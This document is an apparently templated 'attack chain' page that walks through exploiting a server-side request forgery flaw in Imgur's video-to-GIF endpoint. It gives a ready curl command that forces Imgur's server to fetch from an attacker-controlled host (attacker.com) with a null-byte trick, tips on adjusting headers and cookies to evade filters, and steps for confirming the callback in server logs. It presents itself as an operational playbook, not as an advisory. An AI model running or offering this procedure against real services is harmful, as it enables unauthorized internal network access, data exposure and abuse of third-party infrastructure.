

# SSRF Exploitation in Imgur Video to GIF Endpoint for Arbitrary Internal and External Requests

Multi-stage attack chain demonstrating exploitation of a Server-Side Request Forgery (SSRF) vulnerability in Imgur's /vidgif/url endpoint, allowing attackers to force the Imgur server to make unauthorized requests to external attacker-controlled servers or internal network resources, potentially leading to data exfiltration, DoS, or further compromise.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Apache-Web-Server]]
- curl (for sending requests)

### Target Environment

- Web platform
- Imgur's Video to GIF service (/vidgif/url endpoint)
- Backend tech stack: Ruby
- Network access: Public internet to Imgur

### Initial Access Requirements

- No credentials required
- Attacker must control a public server (e.g., via Apache) to receive callbacks
- Ability to monitor server logs

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Identify-SSRF-Vulnerable-Endpoint-in-Imgur-VidGIF]]

**Objective**: Locate and confirm the /vidgif/url endpoint that accepts unsanitized 'url' parameters, enabling server-side fetches of arbitrary URLs.

**Instructions**: Review Imgur's Video to GIF functionality documentation or test the endpoint directly by sending basic requests to observe behavior. Use browser developer tools or a tool like curl to probe the endpoint with simple external URLs.

**Expected Output**: Server response indicating the URL is processed server-side without validation.

**Success Indicators**:
- Endpoint accepts arbitrary URLs
- No error on external URL input

### Step 2: Craft Malicious Request
procedure: [[procedures/Exploit-Imgur-SSRF-with-Malicious-URL-Request]]

**Objective**: Send a crafted GET request to the vulnerable endpoint using an attacker-controlled URL to trigger a server-side request from Imgur's infrastructure.

**Instructions**: Use [[commands/curl-imgur-ssrf-exploit]] to send the request with the malicious URL and appropriate headers mimicking legitimate traffic:

```bash
curl -X GET "https://i.imgur.com/vidgif/url?url=https://attacker.com/.testing/test.txt%00" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36" \
  -H "Accept: */*" \
  -H "Referer: http://imgur.com/vidgif?url=http://example.com/video.mp4" \
  -b "cookies_here"
```

Replace attacker.com with your controlled domain and adjust headers/cookies as needed to evade basic filters.

**Expected Output**: HTTP response from Imgur processing the request; incoming request logged on attacker's server.

**Success Indicators**:
- Request received on attacker's server from Imgur IP
- No client-side blocking

### Step 3: Verify Exploitation via Server Logs
procedure: [[procedures/Verify-SSRF-Exploitation-via-Server-Logs]]

**Objective**: Monitor the attacker's server logs to confirm incoming requests from Imgur's IP addresses, validating the SSRF exploitation.

**Instructions**: Set up logging on your Apache server and tail the access log using standard commands like `tail -f /var/log/apache2/access.log`. Look for HEAD/GET requests from Imgur IPs (e.g., 54.145.111.81) to test paths like /.testing/redirect_vuln.txt.

**Expected Output**: Log entries showing requests from Imgur IPs to attacker paths.

**Success Indicators**:
- Multiple requests from Imgur IPs observed
- Paths matching test files accessed

## Attack Chain Summary

### Key Achievements

1. Identified unsanitized 'url' parameter in /vidgif/url endpoint
2. Forced Imgur server to request attacker-controlled resources
3. Confirmed SSRF via log analysis, enabling potential internal network access or DoS

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
